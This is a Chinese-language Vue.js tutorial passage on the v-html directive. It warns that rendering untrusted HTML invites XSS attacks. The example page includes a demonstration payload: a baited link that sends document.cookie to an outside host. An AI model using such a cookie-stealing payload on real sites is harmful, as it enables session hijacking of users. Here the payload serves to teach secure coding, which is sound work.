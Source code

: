 #### v-html

- 作用：向指定节点中渲染包含html结构的内容。 
- 与插值语法的区别：
- v-html会替换掉节点中所有的内容，{{xx}}则不会。
- v-html可以识别html结构。
- 严重注意：v-html有安全性问题！！！！
                  (1)在网站上动态渲染任意HTML是非常危险的，容易导致XSS攻击。
                  (2)一定要在可信的内容上使用v-html，永不要用在用户提交的内容上！

```html
<!DOCTYPE html>
<html>
	<head>
		<meta charset="UTF-8" />
		<title>v-html指令</title>
		<!-- 引入Vue -->
		<script type="text/javascript" src="../js/vue.js"></script>
	</head>
	<body>
		<!-- 
        v-html指令：
            1.作用：向指定节点中渲染包含html结构的内容。
            2.与插值语法的区别：
                (1).v-html会替换掉节点中所有的内容，{{xx}}则不会。
                (2).v-html可以识别html结构。
            3.严重注意：v-html有安全性问题！！！！
                (1).在网站上动态渲染任意HTML是非常危险的，容易导致XSS攻击。
                (2).一定要在可信的内容上使用v-html，永不要用在用户提交的内容上！
		-->
		<!-- 准备好一个容器-->
		<div id="root">
			<div>你好，{{name}}</div>
			<div v-html="str"></div>
			<div v-html="str2"></div>
		</div>
	</body>

	<script type="text/javascript">
		Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。

		new Vue({
			el:'#root',
			data:{
				name:'尚硅谷',
				str:'<h3>你好啊！</h3>',
				str2:'<a href=javascript:location.href="http://www.baidu.com?"+document.cookie>兄弟我找到你想要的资源了，快来！</a>',
			}
		})
	</script>
</html>
```
